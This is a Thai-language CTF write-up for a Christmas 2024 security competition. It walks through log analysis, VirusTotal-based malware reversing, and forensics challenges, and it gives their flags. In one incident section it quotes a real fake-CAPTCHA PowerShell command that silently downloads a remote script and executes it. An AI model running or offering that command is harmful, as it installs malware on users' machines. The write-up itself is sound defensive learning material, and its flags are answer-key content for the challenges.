# การแข่งขัน CTF ในวัน Christmas

จัดโดย SECPlayground และ Sponsored โดย NCSA Thailand, I-SECURE, Secure-D ในวันที่ 25/12/2024–28/12/2024

## การแข่งรอบนี้มันโจทย์ทั้งหมดคือ:

### Cryptography
- Classical  (Solved)
- Santa's Secret Gift  (Team Solved)

### Log analysis
- Hidden Secret  (Team Solved)
- The First Clue  (Team Solved)
- Universal Share  (Solved)

### Reverse Engineering
- Secplaysomware#1  (Team Solved)
- Secplaysomware#2  (Solved)
- Secplaysomware#3  (Solved)
- Secplaysomware#4  (Solved)
- Secplaysomware#5  (Team Solved)
- Hello World  (Team Solved)

### Incident#1
- Phantom of the Network#1  (Team Solved)
- Phantom of the Network#2  (Team Solved)
- Phantom of the Network#3  (Solved)
- Phantom of the Network#4  (Team Solved)
- Phantom of the Network#5  (Team Solved)
- Phantom of the Network#6  (Team Solved)
- Phantom of the Network#7  (Team Solved)
- Phantom of the Network#8  (Team Solved)

### Digital Forensic
- Santa_Message  (Team Solved)
- The Snowman’s Secret Message#1  (Solved)
- The Snowman’s Secret Message#2  (Team Solved)
- The Snowman’s Secret Message#3  (Solved)
- The Snowman’s Secret Message#4  (Team Solved)
- The Snowman’s Secret Message#5  (Team Solved)
- Malware Infection#1  (Team Solved)
- Malware Infection#2  (Team Solved)
- Malware Infection#3  (Team Solved)
- malware infected  (Team Solved)
- The file was left behind  (Team Solved)

### Web Application Security
- Bespoke Library#1  (Team Solved)
- Bespoke Library#2
- Log Christmas
- The Naughty List 🎄
- Please don’t
- Santa is forgetful! 🎅😄  (Team Solved)
- Merry Christmas  (Team Solved)
- Bookclub
- Travel Blog#1
- Travel Blog#2
- Santa’s Math

ของ Team Solved ไปอ่านที่ [noonomyen](https://blog.noonomyen.com/posts/ctf/secplayground-bloody-xmas-ctf-2024-writeup/) เลยนะครับ

---

## Cryptography

### Classical


เราจะได้ link ไป web หนึ่ง ซึ่งเราจะได้ข้อความบางอย่างมา

ไม่รู้ว่าคืออะไร ลองโยนให้ claude ดู

เราจะเจอคำว่า flags is congratulations เอาไปตอบใน flag format

```
crypto{congratulations}
```

---

## Log analysis

### Universal Share


เราจะได้ไฟล์ zip มา password ไม่ได้บอก แต่น่าจะ secplayground

unzip มาเราจะได้ไฟล์ ssti_access.log


ลองหาว่า มาจาก ip ไหนมากที่สุด

```sh
awk '{print $1}' ssti_access.log | sort | uniq -c | sort -nr | head
```


ลองดูว่า 117.154.101.223 ทำอะไร
```sh
cat ssti_access.log | grep "117.154.101.223" > letfindout.txt
```


ทำอะไรเนี่ยพี่ชาย 💀

เอาไปตอบใน flag format

```
forensic{117.154.101.223}
```

---

## Reverse Engineering

### Secplaysomware#2


เราจะได้ไฟล์ zip และด้านในมีไฟล์ keygen.exe

เอาไปโยนเข้า virustotal เราจะได้

https://www.virustotal.com/gui/file/b8af9cbd706c13f5e7f20573ff5f2894966c905835bd7c026b8c96f20e304c0b

ไปที่ behavior เราจะเจอ

น่าจะ python แหละมั่ง ลองเอาไปตอบ

```
re{python}
```

### Secplaysomware#3


ไปที่ virustotal ไปที่ behavior แล้วไปที่ file dropped


เอาไปตอบใน flag format

```
re{qwerty}
```

### Secplaysomware#4


ไปที่ virustotal ไปที่ behavior แล้วไปที่ Processes created


อืมชิวจัง wa เอาไปตอบใน flag format

```
re{UNLOCK_README.txt}
```

---

## Incident#1

### Phantom of the Network#3


เราจะได้ไฟล์ DESKTOP-81PQ1VF.zip แต่รหัสแตกไฟล์เอามาจากไหนละ?

เราไปที่ข้อแรก แล้ว view source จะเจอกับ hash แปลกๆ 2 ตัวที่ comment ไว้


เราลองใช้ hash-identifier

เราจะรู้ได้ว่ามันคือ sha256 แล้วเราลอง ใช้ rainbow table ที่ https://crackstation.net/


เราจะได้

```
xmas2024
```

เอาไป unzip ซะ

แล้วเราจะได้ไฟล์ต่างๆ เราลองไล่ๆ ดูแล้ว เจอไฟล์ history edge

```
DESKTOP-81PQ1VF\C\Users\cheese\AppData\Local\Microsoft\Edge\User Data\Default\History
```

จึงลองเปิดด้วย sql browser ไปที่ url


เลื่อนๆ ไปแล้วเจอว่าเคยเข้าไปที่ https://en1.savefrom.net/

ภาพ flashback ขึ้นมาในหัว กลุ่มหลังบ้าน 9arm มีคนโพสเรื่องนี้ นี่หว่า ohhhhhhhhhhh เลยลองเข้าเว็บที่อยู่ถัดๆ ไป และใช่! มันคือ capcha ปลอมที่หลอกให้รัน powershell script จริงๆ ด้วย! (ไม่มีรูปเว็บโดนปิดไปแล้ว ;-;)

```
"C:\Windows\system32\WindowsPowerShell\v1.0\PowerShell.exe" -W Hidden -command $uR=' https://blogoss.fr/hexed/vent.txt'; $reS=Invoke-WebRequest -Uri $uR -UseBasicParsing; $t=$reS.Content; iex $t
```

เราเลยลองหาใน event ว่ามีอะไรที่เกี่ยวกับ https://blogoss.fr/hexed/vent.txt ไหม

```
DESKTOP-81PQ1VF\C\Windows\System32\winevt\logs\Security.evtx
```

เราจึงลองเลื่อนๆ อ่านว่า หลังจากรันแล้วเกิดอะไรขึ้นบ้าง

เราเจอว่ามีการเรียกใช้

```
C:\ProgramData\Extrac\kokesh.exe
```

เลยลองเอา path ที่ไฟล์อยู่ไปตอบใน flag format

```
forensic{C:\ProgramData\Extrac}
```

---

## Digital Forensic

### The Snowman’s Secret Message#1


เราจะได้ไฟล์ clickme.zip มาให้แตกรหัสด้วยรหัส infected แล้วแตกไฟล์ เราจะได้ ไฟล์ .txt มา … ใช่เหรอ

ลอง ls

น่าน โดนหลอก จริงๆ มันคือไฟล์ .lnk ที่สอดไส้มา 💀💀💀 เผลอกดเปิดจริงจัง ไม windows defender ไม่ทำงานโหลลลล ถ้าฝัง malware จริงมา ผมโดนแล้วววว

เอาไปตอบใน flag format

```
forensic{lnk}
```

### The Snowman’s Secret Message#3


ลอง cat ไฟล์ clickme.txt.lnk

```sh
cat clickme.txt.lnk
```

เราจะเห็น url แปลกๆ ลองเข้าไปดู

https://dpaste.com/DF7SUQU2G.txt

ลองเอาเลขแปลกๆ ปาลง CyberChef


เอาไปตอบใน flag format

```
forensic{script.py;Xmas.png}
```

---

จบไปแล้วครับสำหรับ writeup ที่เหมือนส่วนเสริมของ writeup noonomyen lol ผมไม่ว่างจริงๆ แต่ก็เป็นอีกหนึ่งงานที่สนุก~ โดยเฉพาะตอนทำข้อ Phantom of the Network#3 ได้ ตอนนั้นกำลังอยู่มหาลัย แล้วดันตอบได้ แต่ไม่ได้อัดตอนทำไว้ ahhh เมื่อกี้ flag มันใส่ path format ไหนวะ lol
